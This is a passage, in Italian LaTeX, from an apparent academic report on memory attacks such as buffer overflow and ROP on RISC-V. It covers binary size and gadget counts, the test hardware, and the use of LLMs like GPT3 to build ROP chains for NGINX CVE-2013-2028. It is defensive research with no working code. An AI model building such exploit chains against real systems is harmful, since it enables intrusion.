    
\includegraphics[width=0.57\linewidth]{images/gef.png}
    \caption{GEF in esecuzione} 
\end{figure}
\FloatBarrier
\vspace{1cm}
\section*{Differenza di compilati}
\addcontentsline{toc}{section}{Differenza di compilati}
Compilando con GCC un semplice ``hello world" notiamo già da subito una differenza sostanziale: il peso in byte del programma compilato è quasi la metà in architettura RISC-V.\\
Su x86\_64 abbiamo infatti un peso complessivo del programma di 15952 byte, contro un totale di 8472 byte per il programma compilato per RISC-V.\\
Questo a prima vista può sembrare inutile al fine dell'attacco, bisogna però pensare alla quantità di istruzioni utili e path di attacco che il binario può offrirci. Avendo meno byte e quindi meno istruzioni in primo luogo è più difficile poter eseguire un attacco dato che il programma offrirà meno vettori di attacco e, in caso di return oriented programming, meno gadget. 
\begin{center}
\begin{tabular}{| c | c c c|} 
 \hline
 \textbf{Arch} & \textbf{GCC Version} & \textbf{OS} & \textbf{Size in B} \\ [0.5ex] 
 \hline\hline
 X86\_64 & 13.2.0 & 24.04 LTS LTS & 15952 \\ 
 \hline
 RISC-V & 11.4.0 & Ubuntu 22.04.4 LTS & 8472 \\
 \hline
\end{tabular} 
\end{center}
Il risultato del compilato è il seguente, per entrambe le architetture\\
\newline
\textbf{x86\_64}
\begin{minted}{c}
ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter
/lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2c0422d81d038623388b83cac19defb8954052ad,
for GNU/Linux 3.2.0, not stripped
\end{minted}
\textbf{RISC-V}
\begin{minted}{c}
ELF 64-bit LSB pie executable, UCB RISC-V, RVC, double-float ABI, version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux-riscv64-lp64d.so.1, 
BuildID[sha1]=fa13aed56cf533eead5c256e3d79da49c0637a1f, for GNU/Linux 4.15.0, not stripped
\end{minted}
\section*{SiFive Cluster}
\addcontentsline{toc}{section}{SiFive}
Per svolgere i test, si sono utilizzati più tipi di processori basati su architettura RISC-V. Il primo tra questi è il cluster del Monte Cimone \cite{mcimone} il quale è un HPC che monta un SoC \textit{SIFIVE FREEDOM U740} e 16 GB di memoria.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/cluster-monte-cimone-risc-v.jpg}
    \caption{Cluster RISC-V del Monte Cimone} 
\end{figure}
\FloatBarrier
\vspace{1cm}
Questo SoC ha alcune feature di sicurezza che sono state testate durante il progetto, come ad esempio la mancanza di speculative execution \cite{Techtarget} che rende il processore non vulnerabile a determinati tipi di attacchi che verranno descritti in seguito.\\
\newline
Nonostante per alcuni tipi di attacco sia cruciale il tipo di SoC montato, per gli attacchi come buffer overflow e return oriented programming è necessario solo avere l'ISA di base con le istruzioni principali. Ogni altra implementazione microarchitetturale non può arginare facilmente questa tipologia di attacchi alla memoria, a meno che non si implementi qualcosa di più sofisticato come l'utilizzo che viene fatto da Apple di puntatori cifrati \cite{AppleSec}, che però necessitano di modifiche lato hardware da implementare nel chip. 
\section*{MILK-V Board}
\addcontentsline{toc}{section}{MILK-V}
Una soluzione più economica ad un cluster HPC basato su RISC-V sono dei SoC basati su chip RISC-V a basso costo montati su dei Single Board Computer (SBC).\\ 
Le due schede utilizzate sono state Milk-V Duo S dotato di un SoC SG2000 con un processore RISC-V C906, 512MB di memoria e un MILK-V Duo 256M con SoC SG2002, processore C906 e 256MB di memoria.\\
Durante la fase di test si è potuto constatare che i test sulle due schede, basandosi allo stesso processore restituiscono risultati identici, quindi è stato scelto di proseguire sulla prima scheda perché più performante.
\newpage
\FloatBarrier
\begin{figure}%
    \centering
    \subfloat{{
\includegraphics[width=6cm]{images/duos-side.png} }}%
    \qquad
    \subfloat{{
\includegraphics[width=5cm]{images/duos-top.png} }}%
    \caption{MILK-V Duo S}%
\end{figure}
\begin{figure}%
    \centering
    \subfloat{{
\includegraphics[width=7cm]{images/duo-side.png} }}%
    \qquad
    \subfloat{{
\includegraphics[width=2cm]{images/duo-top.png} }}%
    \caption{MILK-V Duo}%
\end{figure}
\FloatBarrier
\newpage
Nella figura \ref{ref:duo-pinout} è presentato il pinout della scheda Milk-V. Si sottolinea la presenza di pin GPIO, ovvero pin general purpose interfacciabili con un eventuale sistema Linux che si possono pilotare scrivendo su file. Più avanti si vedrà un attacco a questo tipo di pin usando un buffer overflow.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/duos-pinout.png}
    \caption{Pinout Milk-V Duo S} 
    \label{ref:duo-pinout}
\end{figure}
\FloatBarrier
\vspace{1cm}
\section*{Large Language Model}
\addcontentsline{toc}{section}{Large Language Model}
In una sezione del progetto sono stati utilizzati dei Large Language Model (LLM) come \textit{GPT3} (Generative Pre-Training) \cite{GPT3}, \textit{Gemma} \cite{Gemma} e \textit{Mistral} \cite{Mistral}, utilizzati come generatori di gadget. 
\section*{NGINX}
\addcontentsline{toc}{section}{NGINX}
Nel progetto si è anche cercato di riprodurre il risultato presentato nel paper di RiscyROP \cite{RiscyROP}, un generatore automatico di chain per RISC-V e ARM. Per farlo, si è dovuta utilizzare e compilare una versione specifica del webserver NGINX (v1.4.0) \cite{NGINX}, con una specifica \textit{libc} per fare fede all'ambiente citato.\\
Successivamente si è proceduto con l'estrazione di gadget e si è utilizzato GPT3 per cercare di costruire una chain valida per generare un exploit partendo da una nota vulnerabilità di NGINX: \textit{CVE-2013-2028} \cite{NGINXcve}.
\section*{CVA6}
\addcontentsline{toc}{section}{CVA6}
CVA6 \cite{openhwgroup} è una implementazione open-source di un core RISC-V con pipeline a 6 stadi a 64 bit. Supporta la cache e interfacce come AXI che permettono la comunicazione con le periferiche ed è progettato per le alte prestazioni.\\
CVA6 è utilizzato generalmente per scopo di studio, ma può essere esteso anche in prodotto commerciali dato il basso costo implementativo. Di seguito abbiamo la schematica della pipeline a 6 stadi di CVA6.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
